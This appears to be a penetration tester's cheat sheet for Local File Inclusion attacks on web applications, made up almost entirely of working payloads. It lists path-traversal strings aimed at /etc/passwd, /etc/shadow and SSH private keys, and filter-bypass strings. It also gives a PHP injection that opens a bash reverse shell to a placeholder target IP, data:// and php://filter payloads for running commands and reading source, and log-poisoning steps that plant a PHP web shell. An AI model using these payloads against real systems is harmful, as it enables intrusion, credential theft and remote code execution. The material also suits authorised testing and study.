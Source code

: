 LFI Common Files
---
#LFI #files #RFI

```lists
../../../../../../../etc/passwd
../../../../../../../etc/passwd?
../../../../../../../etc/passwd%00
../../../../../../../etc/passwd^^
.[\\./.\\./.\\./.\\./etc/passwd](file://./etc/passwd)
....................//etc/passwd
....//....//....//....//....//....//....//....//....//....//....//..../etc/passwd
..///..////etc/passwd
..[\\..\\..\\..\\..\\..\\/etc/passwd](file://../../../../../etc/passwd)
..[\\\..\\\..\\\..\\\..\\\/etc/passwd](file://../../../../etc/passwd)
.\/\.\.\/\.\/etc/passwd
../../../../../../../proc/self/cmdline
../../../../../../../proc/self/environ
/etc/passwd
/etc/hosts
/proc/self/environ
/proc/version
/proc/cmdline
/proc/self/cmdline
/etc/issue
/var/www/.htaccess
/var/www/.htpasswd
/etc/shadow
/etc/group
/etc/motd
/etc/mysql/my.cnf
/etc/apache2/apache2.conf
/etc/apache2/conf/httpd.conf
../../../../../../home/USERNAME/.ssh/id_rsa
/var/log/auth.log #log poisoning via SSH
/etc/apache2/sites-available/000-default.conf
/windows/win.ini
```

Windows:

```lists
c:\apache\logs\access.log
c:\apache\logs\error.log
```

Word / file lists:

```lists
/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt
/usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
```

Do 1-1000 to enum processes:
---
#enum #enumeration #process #process-enumeratio 

```shell
for i in $(seq 900 1000); do curl $TARGET_URL/?file=../../../../proc/$i/cmdline -o -; echo " PID => $i"; done
```

Bypass simple filters and other bypasses:
---
#lfi #filter #bypass

```php
' and die(show_source('/etc/passwd')) or '
' and die(system("/bin/bash -c 'bash -i >& /dev/tcp/$TARGET_IP/4444 0>&1'")) or ' #fo rev shell
php://fd/3php://fd/3
php://filter/read=string.toupper|string.rot13|string.tolower/resource=file:///etc/passwd
data:text/plain,<?php phpinfo(); ?>data:text/plain,<?php phpinfo(); ?>
```


```bash
#execute id command
curl -s --path-as-is "$TARGET_URL/index.php?page=data://text/plain,<?php%20echo%20system('id');?>"
#read the contents of index.php
curl -s --path-as-is "$TARGET_URL/index.php?page=php://filter/convert.base64-encode/resource=../../../../../../var/www/html/index.php"
```

Log poisoning:
```burp-suite
User-Agent: CHROME <?php echo system($_GET['exec']);?>
```
Then execute the poisoned log file by including it:
```bash
#linux
curl -s --path-as-is $TARGET_URL/../../../../../../../../../var/log/apache2/access.log&exec=ls
#windows using xampp
curl -s --path-as-is $TARGET_URL/../../../../../../../../../xampp/apache/logs/access.log&exec=dir
```